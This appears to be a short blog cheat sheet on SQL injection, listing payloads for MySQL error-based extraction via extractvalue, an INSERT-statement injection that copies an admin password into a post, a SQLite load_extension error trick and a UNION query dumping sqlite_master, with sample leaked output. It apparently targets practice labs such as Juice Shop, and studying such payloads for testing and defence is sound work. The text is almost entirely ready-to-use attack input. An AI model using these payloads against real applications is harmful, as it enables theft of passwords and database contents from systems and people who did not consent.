 ```yaml
---
title: SQL Injection
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```



## MySQL Error based sql injection

~~~ sql
admin' AND extractvalue(null, ( SELECT upw from user where uid='admin' ) );

# output : (1105, "XPATH syntax error: 'PasSwOrD123...'")


admin' AND extractvalue(null, concat(0x23, ( SELECT upw from user where uid='admin' ) ) );
admin' AND extractvalue(null, concat(0x23, ( SELECT substring(upw, 1, 20) from user where uid='admin' ) ) );
admin' AND extractvalue(null, concat(0x23, ( SELECT substring(upw, 21, 100) from user where uid='admin' ) ) );
~~~

<br>

## MySQL Insert query injection

~~~ sql
-- example
insert into tmitter_board(idx, id, msg, etc) values (0, 'guest', 'hello', 0);

-- payload
asdf1234', null), (0, 'admin', (select ps from tmitter_user where id='admin'), 0)#

-- result
insert into tmitter_board(idx, id, msg, etc) values (0, 'asdf1234', null), (0, 'admin', (select ps from tmitter_user where id='admin'), 0)#', 'hello', 0); 
~~~

<br>

## SQLite Error based injection

~~~ sql
AND CASE WHEN (SELECT 1 FROM Users WHERE email='jim@juice-sh.op') THEN 1 ELSE load_extension(1) END;
~~~

<br>

## SQLite Extract table name, sql

~~~ sql
UNION SELECT name,sql,3,4,5,6,7,8,9 FROM sqlite_master WHERE type='table';
~~~





